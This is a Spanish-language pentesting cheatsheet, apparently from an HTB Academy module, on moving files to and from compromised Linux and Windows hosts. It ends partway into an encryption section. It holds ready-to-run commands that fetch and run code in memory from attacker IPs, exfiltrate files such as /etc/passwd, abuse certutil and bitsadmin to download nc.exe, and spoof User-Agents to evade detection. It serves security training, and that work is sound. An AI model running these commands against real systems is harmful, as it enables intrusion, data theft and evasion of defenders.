

# File Transfers — Cheatsheet

> 📋 Cheatsheet de referencia (comandos, tablas, metodología) — **no** es un writeup de laboratorio con capturas. Para los writeups con capturas de Skills Assessments resueltos, ver `$ ls modulos/` en el README principal.

## Contenido

- [File Transfers — Índice y guía de decisión](#file-transfers--índice-y-guía-de-decisión)
- [Métodos de transferencia de archivos en Linux](#métodos-de-transferencia-de-archivos-en-linux)
- [Métodos de transferencia de archivos en Windows](#métodos-de-transferencia-de-archivos-en-windows)
- [Transferencia de archivos con código (lenguajes)](#transferencia-de-archivos-con-código-lenguajes)
- [Métodos Varios de Transferencia de Archivos](#métodos-varios-de-transferencia-de-archivos)
- [Servidor de subida con Nginx (recibir/exfiltrar)](#servidor-de-subida-con-nginx-recibirexfiltrar)
- [Living off the Land (LOLBins)](#living-off-the-land-lolbins)
- [Evasión de detección](#evasión-de-detección)
- [Transferencias de archivos protegidas (cifradas)](#transferencias-de-archivos-protegidas-cifradas)

---

## File Transfers — Índice y guía de decisión

Nota índice del módulo: qué hay en cada fichero y **qué método usar según la situación**. El tema mezcla muchas técnicas; empieza siempre por: **¿en qué SO estoy?** y **¿en qué dirección muevo el fichero?**.

> [!NOTE]
> **Dirección (vale para todo el módulo)**
> - **Descargar** = traer un fichero **al objetivo** (sirves desde el atacante).
> - **Subir / exfiltrar** = sacar un fichero **del objetivo** (sirves desde el objetivo, o lo empujas).
> - Regla general: *levantar un servidor en un lado* y *descargar desde el otro*.

---

### Índice de notas

- **Por sistema** → **Métodos de Transferencia de Archivos en Linux** · **Métodos de transferencia de archivos en Windows**
- **Por técnica** → **Transferencia de Archivos con Código** (intérpretes) · **Métodos Varios de Transferencia de Archivos** (Netcat, RDP)
- **Servidores de recepción (subida/exfil)** → **NGINX**
- **Living off the Land / OPSEC** → **Living off the land (GTFobins)** (certutil) · **Evasión de Detección** (User-Agent)
- **Cifrado** → **Transferencias de Archivos Protegidas** (AES / OpenSSL)

---

### Árbol de decisión (añadido)



---

### Guía de decisión — ¿qué método uso?

| Situación                                | Método recomendado                                     | Nota                                                                                         |
| ---------------------------------------- | ------------------------------------------------------ | -------------------------------------------------------------------------------------------- |
| **Linux** con `wget`/`curl`              | HTTP desde tu servidor                                 | **Métodos de Transferencia de Archivos en Linux**                                            |
| **Linux** sin `wget`/`curl`              | Bash `/dev/tcp` o un intérprete (python/php/ruby/perl) | **Métodos de Transferencia de Archivos en Linux** · **Transferencia de Archivos con Código** |
| **Linux** con creds SSH                  | `scp` (baja y sube)                                    | **Métodos de Transferencia de Archivos en Linux**                                            |
| **Windows** con PowerShell               | `DownloadFile` o `IEX ...DownloadString` (memoria)     | **Métodos de transferencia de archivos en Windows**                                          |
| **Windows**, "wget de facto" (LOLBin)    | `certutil -urlcache -split -f`                         | **Living off the land (GTFobins)**                                                           |
| **Windows** sin PowerShell               | `cscript wget.js` / `wget.vbs`                         | **Transferencia de Archivos con Código**                                                     |
| **Windows**, arrastrar/soltar            | Montar carpeta por RDP: `xfreerdp /drive`              | **Métodos Varios de Transferencia de Archivos**                                              |
| **Windows** ↔ atacante, ficheros grandes | SMB (`impacket-smbserver` + `net use`)                 | **Métodos de transferencia de archivos en Windows**                                          |
| **Solo shell de texto**                  | base64 (fichero pequeño)                               | **Métodos de transferencia de archivos en Windows**                                          |
| **Transferencia rápida TCP**             | Netcat (`nc`)                                          | **Métodos Varios de Transferencia de Archivos**                                              |
| **Recibir subidas / exfil por HTTP**     | Servidor Nginx (WebDAV `PUT`) + `curl -T`              | **NGINX**                                                                                    |
| **Blacklist de User-Agent**              | Suplantar UA en `Invoke-WebRequest`                    | **Evasión de Detección**                                                                     |
| **Evitar IDS / no dejar rastro legible** | Cifrar (AES / OpenSSL) **antes** de mover              | **Transferencias de Archivos Protegidas**                                                    |

---

### Reglas de oro

- **Primero la dirección, luego la herramienta.** Casi todo es "servidor en un lado, descarga en el otro".
- **Fileless siempre que puedas** (`curl|bash`, `IEX ...DownloadString`): menos rastro en disco.
- **Sin herramientas de descarga** → tira de lo que ya está: `/dev/tcp`, un intérprete, un **LOLBin** (`certutil`), o `nc`.
- **OPSEC**: si hay defensas, cambia el **User-Agent**, usa **LOLBins** con cautela (AMSI detecta `certutil`), y **cifra** los datos sensibles antes de exfiltrar.
- **Verifica integridad** con hash (`md5sum` / `Get-FileHash`) tras mover ficheros críticos.

---

## Métodos de transferencia de archivos en Linux

En un pentest hay que mover ficheros entre tu máquina (**atacante** / Pwnbox) y la máquina comprometida (**objetivo**). La **dirección** la marca quién levanta el servidor:

- **Descargar** (traer un fichero **al objetivo**): sirves el fichero desde el **atacante** y el objetivo lo baja.
- **Subir / exfiltrar** (sacar un fichero **del objetivo**): sirves desde el **objetivo** y lo bajas desde el **atacante**, o lo empujas por SCP.

> [!TIP]
> **Cómo usar esta nota**
> Primero decide la **dirección**. Casi todo se reduce a: *levantar un servidor en un lado* y *descargar desde el otro*.

---

### Levantar un servidor web (para servir ficheros)

Desde el directorio que contiene los ficheros, levanta un servidor HTTP. El **otro lado** los descarga con `wget`/`curl`.

| Herramienta | Comando                         |
| ----------- | ------------------------------- |
| Python 3    | `python3 -m http.server`        |
| Python 2.7  | `python2.7 -m SimpleHTTPServer` |
| PHP         | `php -S 0.0.0.0:8000`           |
| Ruby        | `ruby -run -ehttpd . -p8000`    |

> [!NOTE]
> `python3 -m http.server` escucha en el **puerto 8000** por defecto (cámbialo con `python3 -m http.server 9000`). Quién lo levante define la dirección: en el **atacante** → el objetivo descarga; en el **objetivo** → tú exfiltras.

---

### Descargar ficheros al objetivo

#### HTTP con wget / curl

```bash
wget <URL> -O fichero_salida
```
`wget` con **`-O`** (mayúscula) define el nombre del fichero de salida.

```bash
curl <URL> -o fichero_salida
```
`curl` hace lo mismo, pero la opción de salida es **`-o`** (minúscula).

#### Descarga en memoria (fileless)

Ejecuta el script directamente **en memoria**, sin escribirlo en disco (menos rastro, evade algunos AV/EDR).

```bash
curl <URL> | bash
```
```bash
wget -qO- <URL> | bash
```
`-qO-` = silencioso (`-q`) y volcado a *stdout* (`-O-`), que se **canaliza** a `bash`. Si el script es de Python, se canaliza a `python3`.

#### Bash puro (/dev/tcp) — sin wget ni curl

Cuando la máquina **no tiene** `wget` ni `curl`, Bash puede abrir sockets TCP con su pseudo-dispositivo `/dev/tcp`.

```bash
exec 3<>/dev/tcp/10.10.10.32/80              # 1. abre conexión (descriptor 3)
echo -e "GET /LinEnum.sh HTTP/1.1\n\n" >&3    # 2. envía la petición HTTP GET
cat <&3                                       # 3. lee la respuesta
```

> [!NOTE]
> `/dev/tcp/<IP>/<puerto>` es una **característica de Bash** (no un fichero real). Muy útil en shells restringidas o sistemas mínimos sin herramientas de descarga.

---

### Subir / exfiltrar ficheros desde el objetivo

#### Servir en el objetivo y descargar desde el atacante

Levantas un servidor web **en el objetivo** (tabla de arriba) y lo descargas desde tu máquina:

```bash
wget 192.168.49.128:8000/filetotransfer.txt
```
(`192.168.49.128` = IP del objetivo que está sirviendo; lo descargas a tu Pwnbox.)

---

### Transferencia por SSH (SCP) — en ambos sentidos

Requiere **credenciales SSH** válidas en el otro extremo.

#### Descargar (traer un fichero remoto a tu máquina)

```bash
scp plaintext@192.168.49.128:/root/myroot.txt .
```
Copia `myroot.txt` del host remoto a tu directorio actual (`.`).

#### Subir (enviar un fichero local al host remoto)

```bash
scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/
```

---

### Resumen rápido (cheatsheet)

| Dirección | Método | Comando |
|-----------|--------|---------|
| Servir | Servidor web | `python3 -m http.server` · `php -S 0.0.0.0:8000` |
| Descargar | wget / curl | `wget <URL> -O out` · `curl <URL> -o out` |
| Descargar | Fileless | `curl <URL> \| bash` · `wget -qO- <URL> \| bash` |
| Descargar | Bash puro | `exec 3<>/dev/tcp/<IP>/80` → `echo -e "GET /f HTTP/1.1\n\n" >&3` → `cat <&3` |
| Exfiltrar | Servir en objetivo | `wget <IP_objetivo>:8000/fichero` (desde el atacante) |
| Ambos | SCP (SSH) | Bajar: `scp user@<IP>:/ruta/f .` · Subir: `scp f user@<IP>:/ruta/` |

---

Relacionado: equivalente en Windows → **Métodos de transferencia de archivos en Windows** · sin wget/curl → **Transferencia de Archivos con Código** · recibir subidas → **NGINX** · **0 - File Transfers (Índice y guía)**

---

## Métodos de transferencia de archivos en Windows

Formas de mover ficheros hacia/desde una máquina **Windows** comprometida. Igual que en Linux, la **dirección** la marca quién sirve el fichero:

- **Descargar** (traer al objetivo Windows): sirves desde el **atacante** (HTTP, SMB, FTP) y Windows lo baja con PowerShell.
- **Subir / exfiltrar** (sacar del objetivo): lo empujas al share SMB o lo pasas por **base64** por consola.

Los métodos por **SMB** y por **base64** sirven en **ambos sentidos**.

---

### Descargar ficheros al objetivo (PowerShell)

#### A disco — DownloadFile

```powershell
(New-Object Net.WebClient).DownloadFile('http://192.168.181.129:8080/test.txt','.\test.txt')
```

#### En memoria (fileless) — DownloadString + IEX

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://192.168.181.129:8080/enum.ps1')
(New-Object Net.WebClient).DownloadString('http://192.168.181.129:8080/enum.ps1') | IEX
```
Descarga el script **en memoria** y lo ejecuta con **`IEX`** (`Invoke-Expression`) sin tocar el disco. Las dos formas son equivalentes.

#### Invoke-WebRequest

```powershell
Invoke-WebRequest http://192.168.181.129:8080/enum.ps1 -OutFile enum.ps1
```
Admite los alias **`iwr`**, **`curl`** y **`wget`** en lugar del nombre completo.

> [!WARNING]
> **Error común**
> Si el **primer inicio de Internet Explorer** no se ha completado, `Invoke-WebRequest` falla. Se soluciona con **`-UseBasicParsing`**:
> ```powershell
> Invoke-WebRequest <URL> -OutFile out.ps1 -UseBasicParsing
> ```

---

### Subir ficheros con PowerShell (Invoke-WebRequest POST, añadido)

Además de SMB/base64, PowerShell puede **subir** un fichero de forma nativa por HTTP, sin montar ningún share: codificas el contenido y lo mandas por **POST**.

```powershell
$b64 = [Convert]::ToBase64String((Get-Content -Path "C:\secret.txt" -Encoding Byte))
Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
```
En el atacante, un listener/servidor simple recibe el `POST` y guarda el cuerpo. Es la contraparte en PowerShell del `requests.post(...)` de Python que ya viste en **Transferencia de Archivos con Código**.

> [!TIP]
> Útil cuando tienes PowerShell pero **no** quieres (o no puedes) montar SMB — por ejemplo, si el firewall solo deja salir el puerto 443/80.

---

### Transferencia por SMB (en ambos sentidos)

**1. Levantar el servidor SMB** en el atacante (con Impacket):
```bash
sudo impacket-smbserver share -smb2support /ruta-compartida -user user -password password
```

**2. Montar/usar el recurso desde Windows** (descargar o subir copiando ficheros al share):
```cmd
net use n: \\192.168.181.129\share /user:test test
```

**Comprobar desde Linux**:
```bash
smbclient //192.168.181.129/share -U test
```

> [!NOTE]
> `-smb2support` es necesario para clientes Windows modernos, y **`-user`/`-password`** porque Windows 10/11 ya **no permite SMB anónimo** por defecto. Una vez montado (`n:`), copiar un fichero **al** share = exfiltrar, y copiar **desde** el share = descargar.

---

### Transferencia por FTP

**1. Levantar el servidor FTP** en el atacante:
```bash
sudo pip3 install pyftpdlib
sudo python3 -m pyftpdlib --port 21
```

**2. Descargar desde Windows** (PowerShell):
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

---

### Transferencia por base64 (canal de solo texto)

Cuando solo tienes una shell de **texto** (sin HTTP/SMB), puedes pasar ficheros **pequeños** (p. ej. una clave SSH) codificándolos en base64, pegando el texto, y decodificándolos en el otro lado. El **hash** confirma que la transferencia fue íntegra.

> [!WARNING]
> **Límite**
> La consola de Windows tiene un límite de longitud de línea (~8000 caracteres). Para ficheros grandes usa **SMB o HTTP**, no base64.

#### Bajar un fichero al Windows

```bash
md5sum id_rsa                    # 1. (atacante) hash del original
cat id_rsa | base64 -w 0; echo   # 2. (atacante) codificar en una sola línea (-w 0)
```
```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("BASE64"))   # 3. (Windows) crear el fichero
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5                                           # 4. (Windows) verificar hash
```
El hash del paso 4 debe **coincidir** con el del paso 1.

> [!NOTE]
> **Corrección de sintaxis**
> En las notas la línea aparecía como `IO.File::WriteAllBytes(...)`. La sintaxis correcta lleva **corchetes en el tipo**: `[IO.File]::WriteAllBytes(...)`.

#### Sacar un fichero del Windows (exfiltración)

```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))   # (Windows) codificar
```
```bash
echo '<BASE64>' | base64 -d > hosts    # (atacante) decodificar el texto pegado
```

---

### Resumen rápido (cheatsheet)

| Dirección | Método | Comando |
|-----------|--------|---------|
| Descargar | PowerShell (disco) | `(New-Object Net.WebClient).DownloadFile('<URL>','.\out')` |
| Descargar | Fileless | `IEX (New-Object Net.WebClient).DownloadString('<URL>')` |
| Descargar | Invoke-WebRequest | `Invoke-WebRequest <URL> -OutFile out -UseBasicParsing` |
| Descargar | FTP | `(New-Object Net.WebClient).DownloadFile('ftp://<IP>/f','C:\...\f')` |
| Subir | Invoke-WebRequest POST | `Invoke-WebRequest -Uri http://<IP>:443 -Method POST -Body $b64` |
| Ambos | SMB (server) | `sudo impacket-smbserver share -smb2support /ruta -user u -password p` |
| Ambos | SMB (montar) | `net use n: \\<IP>\share /user:u p` |
| Bajar a Win | base64 | `[IO.File]::WriteAllBytes("C:\...\f",[Convert]::FromBase64String("B64"))` |
| Sacar de Win | base64 | `[Convert]::ToBase64String((Get-Content -path "..." -Encoding byte))` |
| — | Verificar hash | `Get-FileHash <f> -Algorithm md5` |

---

Relacionado: equivalente en Linux → **Métodos de Transferencia de Archivos en Linux** · sin PowerShell → **Transferencia de Archivos con Código** · **Living off the land (GTFobins)** · evitar blacklists → **Evasión de Detección** · **0 - File Transfers (Índice y guía)**

---

## Transferencia de archivos con código (lenguajes)

Cuando **no hay** `wget`/`curl`, se puede usar cualquier **intérprete** ya instalado en la máquina para descargar (o subir) ficheros. Lenguajes como **Python, PHP, Perl y Ruby** están muy presentes en Linux; en Windows suelen estar **JavaScript** y **VBScript** (vía `cscript.exe`).

> [!NOTE]
> Es una técnica *living off the land*: aprovechas binarios/intérpretes legítimos ya presentes, sin subir herramientas nuevas.

---

### Descargar — Linux/Unix

#### Python

```bash
python2.7 -c 'import urllib;urllib.urlretrieve("http://192.168.181.129:8080/test.txt", "test.txt")'
```
```bash
python3 -c 'import urllib.request;urllib.request.urlretrieve("http://192.168.181.129:8080/test.txt", "test.txt")'
```

#### PHP

```bash
php -r '$file = file_get_contents("http://192.168.181.129:8080/test.txt"); file_put_contents("test.txt",$file);'
```

#### Ruby

```bash
ruby -e 'require "net/http"; File.write("test.txt", Net::HTTP.get(URI.parse("http://192.168.181.129:8080/test.txt")))'
```

#### Perl

```bash
perl -e 'use LWP::Simple; getstore("http://192.168.181.129:8080/test.txt", "test.txt");'
```

---

### Descargar — Windows (cscript.exe)

En Windows, el código va **guardado en un fichero** (`.js` o `.vbs`) y se ejecuta con `cscript.exe /nologo`. El primer argumento es la URL y el segundo el nombre de salida.

#### JavaScript (wget.js)

Contenido de `wget.js`:
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
Ejecutar:
```cmd
cscript.exe /nologo .\wget.js http://192.168.181.129:8080/test.txt test.txt
```

#### VBScript (wget.vbs)

Contenido de `wget.vbs`:
```vbnet
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send
with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
Ejecutar:
```cmd
cscript.exe /nologo .\wget.vbs http://192.168.181.129:8080/test.txt test.txt
```

---

### Subir / exfiltrar — Python3 (POST)

```bash
python3 -c 'import requests;requests.post("http://192.168.181.129:8080/",files={"files":open("test.txt","rb")})'
```
Envía `test.txt` por **HTTP POST** a un servidor que acepte subidas (p. ej. `uploadserver` de Python en el atacante).

---

### Resumen rápido (cheatsheet)

| Lenguaje | Descargar |
|----------|-----------|
| Python 3 | `python3 -c 'import urllib.request;urllib.request.urlretrieve("<URL>","out")'` |
| PHP | `php -r 'file_put_contents("out",file_get_contents("<URL>"));'` |
| Ruby | `ruby -e 'require "net/http";File.write("out",Net::HTTP.get(URI.parse("<URL>")))'` |
| Perl | `perl -e 'use LWP::Simple;getstore("<URL>","out");'` |
| JS (Win) | `cscript.exe /nologo .\wget.js <URL> out` |
| VBScript (Win) | `cscript.exe /nologo .\wget.vbs <URL> out` |
| **Subir** (Py3) | `python3 -c 'import requests;requests.post("<URL>",files={"files":open("f","rb")})'` |

---

Relacionado: equivalente nativo en Windows → **Métodos de transferencia de archivos en Windows** (Invoke-WebRequest POST) · wget/curl primero → **Métodos de Transferencia de Archivos en Linux** · **0 - File Transfers (Índice y guía)**

---

## Métodos Varios de Transferencia de Archivos

nc
## Métodos varios de transferencia de archivos

Otros métodos útiles cuando no tienes HTTP/SMB a mano: **Netcat** (transferencia cruda por TCP) y montar una **carpeta local dentro de una sesión RDP**.

---

### Netcat (nc)

[Netcat](https://sectools.org/tool/netcat/) (`nc`) lee y escribe en conexiones de red por **TCP/UDP**, así que también sirve para **transferir ficheros**.

> [!NOTE]
> **Cómo funciona**
> - El lado con **`-l`** (listen) **escucha**; el otro se **conecta**.
> - **`<`** envía un fichero por la conexión; **`>`** guarda en un fichero lo que se recibe.
> - **`-q 0`** cierra la conexión en cuanto termina el envío (EOF).
> - La IP del comando es siempre la del **que está escuchando**.

#### Caso 1 — el que recibe escucha

**Receptor** (escucha y guarda):
```bash
nc -l -p 8080 > test.txt
```
**Emisor** (se conecta y envía):
```bash
nc -q 0 192.168.181.129 8080 < test.txt
```

#### Caso 2 — el que envía escucha

**Emisor** (escucha y sirve el fichero):
```bash
nc -lp 8080 -q 0 < test.txt
```
**Receptor** (se conecta y recibe):
```bash
nc 192.168.181.129 8080 > test.txt
```

---

### Montar una carpeta de Linux por RDP (xfreerdp /drive)

```bash
xfreerdp /u:htb-student /p:'HTB_@cademy_stdnt!' /v:10.129.65.190 /drive:linux,/home/arabot/temp
```

| Flag | Significado |
|------|-------------|
| `/v:` | IP del servidor RDP |
| `/d:` | dominio (AD) |
| `/u:` | usuario |
| `/p:` | contraseña |
| `/drive:nombre,ruta` | monta una carpeta de tu Kali como **unidad de red** dentro de Windows |

> [!TIP]
> Con `/drive:` montas tu carpeta local dentro de la sesión RDP, así puedes **copiar/pegar ficheros directamente** entre tu Kali y el Windows, sin montar HTTP/SMB a mano. Aparece como una unidad de red en el explorador de Windows.

---

### Resumen rápido (cheatsheet)

| Método | Comando |
|--------|---------|
| Netcat — receptor escucha | `nc -l -p 8080 > out.txt` ← `nc -q 0 <IP> 8080 < in.txt` |
| Netcat — emisor escucha | `nc -lp 8080 -q 0 < in.txt` → `nc <IP> 8080 > out.txt` |
| RDP con carpeta montada | `xfreerdp /u:<u> /p:'<p>' /v:<IP> /drive:linux,/ruta/local` |

---

Relacionado: otros métodos por sistema → **Métodos de transferencia de archivos en Windows** · **Métodos de Transferencia de Archivos en Linux** · **0 - File Transfers (Índice y guía)**

---

## Servidor de subida con Nginx (recibir/exfiltrar)

Para **recibir subidas HTTP** (exfiltrar ficheros del objetivo a tu máquina), **Nginx** es mejor alternativa que Apache: configuración más simple y **más seguro**.

> [!WARNING]
> **Por qué Nginx y no Apache**
> Al permitir subidas HTTP es **crítico** que nadie pueda subir una **web shell** y ejecutarla. Apache facilita "dispararte en el pie" porque su módulo **PHP ejecuta cualquier cosa que termine en `.php`**. En Nginx configurar PHP no es ni de lejos tan automático, así que por defecto es más seguro para este uso.

### Montar el servidor de subida

**1. Crear el directorio de subidas:**
```bash
sudo mkdir -p /var/www/uploads/SecretUploadDirectory
```

**2. Cambiar el propietario a `www-data`** (el usuario con el que corre Nginx):
```bash
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```

**3. Crear el fichero de configuración** `/etc/nginx/sites-available/upload.conf`:
```nginx
server {
    listen 9001;

    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```
`dav_methods PUT` habilita **WebDAV** para aceptar subidas por HTTP `PUT`.

**4. Enlazar el sitio a `sites-enabled`:**
```bash
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
```

**5. Reiniciar Nginx:**
```bash
sudo systemctl restart nginx.service
```

### Subir un fichero (curl -T)

```bash
curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```
`-T` sube el fichero por `PUT` al directorio configurado.

> [!TIP]
> **Comprobar que el listado de directorios está desactivado**
> Navega a `http://localhost:9001/SecretUploadDirectory` y confirma que **no** lista los ficheros. En Apache, un directorio sin `index.html` **lista todo** su contenido (malo para exfiltración, expone ficheros sensibles). Nginx, por minimalista, **no** habilita eso por defecto.

---

### Resumen rápido (cheatsheet)

| Paso | Comando |
|------|---------|
| Crear directorio | `sudo mkdir -p /var/www/uploads/SecretUploadDirectory` |
| Dueño www-data | `sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory` |
| Config (WebDAV PUT) | `location /SecretUploadDirectory/ { root /var/www/uploads; dav_methods PUT; }` |
| Habilitar + reiniciar | `ln -s .../upload.conf /etc/nginx/sites-enabled/` → `systemctl restart nginx` |
| Subir fichero | `curl -T <fichero> http://<IP>:9001/SecretUploadDirectory/<nombre>` |

---

Relacionado: cifra antes de subir → **Transferencias de Archivos Protegidas** · otros métodos de exfiltración → **Métodos de Transferencia de Archivos en Linux** · **0 - File Transfers (Índice y guía)**

---

## Living off the Land (LOLBins)

Los **binarios "Living off the Land"** son ejecutables **legítimos** ya presentes en el sistema que se pueden abusar para tareas ofensivas, sin subir herramientas propias (más sigiloso).

### Qué permiten

- Descarga de ficheros
- Subida de ficheros
- Ejecución de comandos
- Lectura de ficheros
- Escritura de ficheros
- Evasiones (bypasses)

> [!NOTE]
> **Referencias**
> - **Windows** → [LOLBAS](https://lolbas-project.github.io/) (Living Off The Land Binaries And Scripts).
> - **Linux** → [GTFOBins](https://gtfobins.github.io/).
> Buscas el binario disponible y ves qué funciones ofensivas soporta.

### Certutil (Windows)

Disponible en **todas las versiones de Windows**; ha sido el "`wget` de facto" de Windows para transferir ficheros.

```cmd
certutil -urlcache -split -f http://10.10.10.32:8000/nc.exe nc.exe
```
```cmd
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```

| Parámetro | Función |
|-----------|---------|
| `-urlcache` | Trabaja con la caché de URLs (permite la descarga). |
| `-split` | Descarga y **separa** el contenido en disco. |
| `-f` | Fuerza la sobrescritura del fichero. |
| `-verifyctl` | Descarga (vía verificación de CTL) — variante alternativa. |

> [!WARNING]
> **AMSI**
> Hoy en día la **AMSI** (Antimalware Scan Interface) detecta el uso de `certutil` para descargas como **malicioso**. Puede saltar la alarma; tenlo en cuenta y ten alternativas (otro LOLBin, cifrado, ejecución en memoria).

### BITSAdmin (Windows, añadido)

Otro LOLBin de descarga, presente en Windows desde hace años. Usa el servicio **BITS** (Background Intelligent Transfer Service, el mismo que usa Windows Update) para transferir el fichero en segundo plano:

```cmd
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```
- `/transfer n` → nombre del trabajo (`n`, puede ser cualquier etiqueta).
- Siguiente argumento → URL de origen; último → ruta de destino.

> [!TIP]
> **Alternativa a certutil**
> Como `certutil` está muy vigilado hoy en día, `bitsadmin` es una **segunda opción** de LOLBin para descargas cuando el primero está bloqueado o detectado. (Nota: en Windows modernos, `bitsadmin.exe` está **obsoleto** y puede no estar presente; el equivalente actual es el cmdlet `Start-BitsTransfer` de PowerShell).

---

### Resumen rápido (cheatsheet)

| Binario | Comando |
|---------|---------|
| `certutil` (descargar) | `certutil -urlcache -split -f http://<IP>/file out` |
| `bitsadmin` (descargar) | `bitsadmin /transfer n http://<IP>/file C:\ruta\out` |
| Referencia Windows | LOLBAS — <https://lolbas-project.github.io/> |
| Referencia Linux | GTFOBins — <https://gtfobins.github.io/> |

---

Relacionado: otras formas de descargar en Windows → **Métodos de transferencia de archivos en Windows** · **Evasión de Detección** · **0 - File Transfers (Índice y guía)**

---

## Evasión de detección

Los defensores pueden poner en **lista negra** los User-Agents por defecto de las herramientas de descarga (PowerShell, `certutil`…). `Invoke-WebRequest` admite el parámetro **`-UserAgent`** para **suplantar** el de un navegador real (Internet Explorer, Firefox, Chrome, Opera, Safari) y que la petición **parezca legítima**. Si la empresa usa Chrome internamente, un User-Agent de Chrome se camufla mejor.

### Listar los User-Agents disponibles

```powershell
[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
```
Devuelve los User-Agents integrados: **InternetExplorer, FireFox, Chrome, Opera, Safari**.

### Descargar con un User-Agent legítimo (Chrome)

```powershell
$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
```

### Verificación (lado servidor)

En tu escucha ves que la petición llega con el User-Agent de Chrome, no el de PowerShell (salida de mis notas):

```
$ nc -lvnp 80
listening on [any] 80 ...
GET /nc.exe HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) AppleWebKit/534.6 (KHTML, Like Gecko) Chrome/7.0.500.0 Safari/534.6
Host: 10.10.10.32
Connection: Keep-Alive
```

> [!NOTE]
> Cambiar el User-Agent es solo **una capa** de evasión (esquiva blacklists por UA). No evade AMSI ni la inspección del contenido; para eso, combínalo con cifrado (ver **Transferencias de Archivos Protegidas**) o ejecución en memoria.

---

### Resumen rápido (cheatsheet)

| Acción | Comando |
|--------|---------|
| Listar UAs | `[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() ...` |
| Descargar con UA de Chrome | `$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome` → `Invoke-WebRequest <URL> -UserAgent $UserAgent -OutFile <out>` |

---

Relacionado: **Métodos de transferencia de archivos en Windows** · otra capa de evasión → **Transferencias de Archivos Protegidas** (cifrado) · **Living off the land (GTFobins)** · **0 - File Transfers (Índice y guía)**

---

## Transferencias de archivos protegidas (cifradas)

**Cifrar** el contenido antes de moverlo por la red evita que un IDS/firewall lo detecte por inspección de tráfico y que quede evidencia legible en los logs de transferencia (HTTP, SMB…). Aquí, cifrado en **Windows** (Invoke-AESEncryption) y en **Linux** (OpenSSL).

> [!TIP]
> **Flujo típico**
> Comprometes máquina → encuentras un archivo sensible → lo **cifras** → lo transfieres con cualquier método (HTTP, SMB, RDP drive) → lo **descifras** en tu Kali con la **misma clave**.

---

### Invoke-AESEncryption (Windows)

#### Qué es

